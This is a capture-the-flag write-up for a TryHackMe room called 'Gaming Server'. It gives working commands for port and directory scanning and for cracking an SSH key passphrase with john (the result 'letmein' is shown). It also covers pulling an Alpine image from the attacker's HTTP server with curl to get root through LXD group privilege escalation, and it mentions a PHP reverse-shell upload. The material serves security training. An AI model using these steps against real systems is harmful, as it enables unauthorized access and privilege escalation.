**Category:** Web
**Author:** *Harsh Sharma*

# Gaming Server

## Enumeration using nmap

`nmap -sV -sC -p- 10.10.169.167`

2 open ports




let's visit the site-



> Nothing of our interest was found

and the source code-



looks like we found a user - [John] let's dig deeper

### Directory enumeration

`gobuster dir -u 10.10.169.167 -w /usr/share/wordlists/dirb/common.txt -x html,php -q`



> there are some interesting files and folder and also, an about file with php extension? let's explore all of it sequentially

- Here's robots.txt



- and here's the secret directory



found a secret key, we can probably use it for ssh

In addition to that, in the `/uploads` directory, found a dictionary which we can use later on and a `manifesto.txt`



---------------------------

Next, let's visit the `about.php`





source code - upload a php - reverse shell

----------------------------

So, I used the wordlist (dict.lst saved on root folder as dict.txt) with john to brute force the passphrase for sshkey as follows -

```console
┌──(root㉿kali)-[~]
└─# ssh2john id_rsa > id_rsa.hash
                                                                                         
┌──(root㉿kali)-[~]
└─# sudo john id_rsa.hash -w dict.txt 
Created directory: /root/.john
Warning: only loading hashes of type "SSH", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)     
1g 0:00:00:00 DONE (2025-01-01 04:28) 50.00g/s 1600p/s 1600c/s 1600C/s summer..maggie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

and we find the passphrase, let's try to login now



...and we are in!

The user flag 1 is in the same directory

## Privilege Escalation

I tried linpeas but couldn't make it run, and since I did not have the password for john, I wasn't able to do a quick `sudo -l` as well. But while checking on the processes, here's what I found-

```console
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
john@exploitable:~$ 

```

Interestingly, we can see `lxd`

We can exploit it; I used [this article](https://www.hackingarticles.in/lxd-privilege-escalation/) to get root, followed all the steps

```console
┌──(root㉿kali)-[~]
└─# git clone https://github.com/saghul/lxd-alpine-builder

Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42 (from 1)
Receiving objects: 100% (50/50), 3.11 MiB | 54.96 MiB/s, done.
Resolving deltas: 100% (15/15), done.
```
> Cloned it on my attacker machine because the victim machine wasn't internet facing; transferred the tar.gz file as follows-

```console

┌──(root㉿kali)-[~]
└─# lxd-alpine-builder 
                                                                                         
┌──(root㉿kali)-[~/lxd-alpine-builder]
└─# ls                
LICENSE  README.md  alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine
                                                                                         
┌──(root㉿kali)-[~/lxd-alpine-builder]
└─# cp alpine-v3.13-x86_64-20210218_0139.tar.gz ../alpine.tar.gz

```
Started a python http server on port 9000 and transferred over the file via curl-

```console
john@exploitable:/tmp$ curl 10.10.82.91:9000/alpine.tar.gz --output alpine.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 3183k  100 3183k    0     0   172M      0 --:--:-- --:--:-- --:--:--  172M

```

Following it further, we have the root!








- Hence, we ended up using LXD Priv Esc in this unique tryhackme room. It was fun working with container privilege escalation for the first! 


